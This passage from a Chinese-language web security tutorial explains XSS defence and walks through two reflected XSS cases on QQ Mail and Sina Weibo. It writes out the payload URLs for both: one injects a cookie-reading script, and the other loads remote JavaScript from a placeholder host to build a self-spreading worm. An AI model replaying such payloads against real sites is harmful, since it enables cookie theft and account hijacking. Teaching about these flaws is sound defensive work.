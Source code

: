 通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。

**主动检测和发现**

可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。

## XSS攻击案例 ##

### QQ邮箱m.exmail.qq.com域名反射型XSS漏洞 ###

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： 

    http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

	<script>
		getTop().location.href= "/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa" + "&t=" + "&d=bbbb";
		return false;
	</script>
	
	<script>
		alert(document.cookie)
	</script> "+"...

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

### 新浪微博名人堂反射型XSS漏洞 ###

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

	http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

	<li>
		<a href = "http://weibo.com/pub/star/g/xyyyd" >  < script   src = //xxxx.cn/image/t.js >  </ script > ">按分类检索 </ a >
	</li>

浏览器接收到响应后就会加载执行恶意脚本 //xxxx.cn/image/t.js，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

## 扩展阅读：Automatic Context-Aware Escaping ##

上文我们说到：

1. 合适的 HTML 转义可以有效避免 XSS 漏洞。

2. 完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
